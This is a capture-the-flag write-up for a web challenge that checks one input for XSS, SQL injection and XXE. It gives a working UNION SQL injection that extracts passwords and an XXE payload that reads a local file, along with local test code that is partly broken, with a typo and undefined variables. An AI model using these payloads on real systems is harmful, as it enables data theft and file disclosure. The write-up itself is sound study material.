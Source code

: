 # SECURE BUG CTF

It was awesome ctf ,so let's enjoy with writeup.

# web challenges:

## 1- ALLLn1(medium)

![Screenshot at 2021-07-21 12-39-35](https://user-images.githubusercontent.com/52857059/126521585-a4841180-b58a-4e82-b9d3-93429f94495b.png)

if we go to source directory we will see source code of page , it is js code.  

![Screenshot at 2021-07-21 18-16-09](https://user-images.githubusercontent.com/52857059/126523341-739e3200-9c9b-4f6b-9d47-4e8009cf27b6.png)

we notice when returns "parabens hackudo" we get the flag , else we get nope.

let's take second script & test our payload locally

```html
const puppeteer = require('puppeteer')
const mysql = require("mysql")
const util = require('util')
const libxml = require("libxmljs")
const fs = require("fs")
const sanitizeHtml = require("sanitize-html")



function test_xxe(payload) {

	try {
		var my_secret = Math.random().toString(36).substring(2) ;
		fs.writeFileSync("/home/gnx/script/xxe_secret",my_secret)
		var doc = libxml.parseXml(payload, { noent: true ,nonet: true })
		return doc.toString().includes(my_secret) 
		
	} catch (e) {
		return false
	}
} 

async function test_xss(payload) {
	try {
		const browser = await puppeteer.launch({args:['--no-sandbox', '--disable-setuid-sandbox','--disable-dev-shm-usage','--disable-accelerated-2d-canvas','--no-first-run','--no-zygote','--single-process','--disable-gpu']})
		const page = await browser.newPage()
		page.setDefaultNavigationTimeout(1000);
		payload = sanitizeHtml(payload,{allowedTags:[]})
		await page.goto(`data:text/html,<script>${payload}</script>`)
		const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )") // vlw herrera

		await browser.close()
		
		return check

	} catch (error) {
		console.error(error)
	}

}

async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : process.env.MYSQL_HOST || "127.0.0.1",
		user : process.env.MYSQL_USER,
		password : process.env.MYSQL_PASSWORD,
		database : process.env.MYSQL_DATABASE,
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main(args){

	var xss = test_xss(args[0])
	var sqli = test_sqli(args[0])
	var xxe = test_xxe(args[0])

  Promise.all([xss,sqli]).then( function( values ){
                if ( values[0] && values[1] && xxe ) {
                        console.log("parabens hackudo")
                } else {
                        console.log("hack harder")
                }

                process.exit(0)
        })
	
}

main(process.argv.slice(2))

```
let's start with sqli test :

sql injection payload  
```html 
' UNION SELECT 1, 2 , password FROM users -- - 
```
![Screenshot at 2021-07-21 18-42-41](https://user-images.githubusercontent.com/52857059/126526899-14f9eecd-a648-4d7e-9e7f-84eed2cf6870.png)
 yes, it works

```html
async function test_sqli(payload) {

	var connection = mysql.createConnection({
		host : "127.0.0.1",
		user : "root",
		password : "root",
		database : "foo",
		charset: 'utf8',
    dialectOptions: {
			collate: 'utf8_general_ci',
    },
	})


	const query = util.promisify(connection.query).bind(connection)


	connection.connect()

	const users = await query("SELECT * from users") 
	try {
		const sqli = await query(`SELECT * from posts where id='${payload}'`)
		await connection.end() 
		return JSON.stringify(sqli).includes(users[0]["password"])	
	} catch(e) {
		return false
	}
}

function main() {
	let sql_payload = "' UNION SELECT 1, 2 , password FROM users -- - "
	
	var sqli = test_sqli(payload)

	Promise.all([sqli]).then( function( values ){
		console.log('SQL: ' + values[0])

		process.exit(0)
	})

	
}

```
  if we try this file locally it returns true , so first test is done.
  
  XXE test 
  xxe payload 
  ```html
<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///root/ctf/payload/src/xxe_secret'>]><root>&test;</root>
```
```html
function test_xxe(payload) {

	try {
		var my_secret = Math.random().toString(36).substring(2) ;
		fs.writeFileSync("/root/ctf/payload/src/xxe_secret",my_secret)
		var doc = libxml.parseXml(payload, { noent: true ,nonet: true })
		return doc.toString().includes(my_secret) 

	} catch (e) {
		return false
	}
} 

unction main() {
	let sql_payload = "' UNION SELECT 1, 2 , password FROM users -- - "
	let xxe_payload = "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///root/ctf/a_payload_to_rule_them_all/src/xxe_secret'>]><root>&test;</root>"
	
	//var sqli = test_sqli(payload)
	var xxe = test_xxe(xxe_payload)
	

	Promise.all([sqli,xss]).then( function( values ){
		console.log('SQL: ' + values[0])
		console.log('XEE: ' + xxe)
		

		process.exit(0)
	})

	
}

```
if we access this file locally it returns true , so first test is done.
  



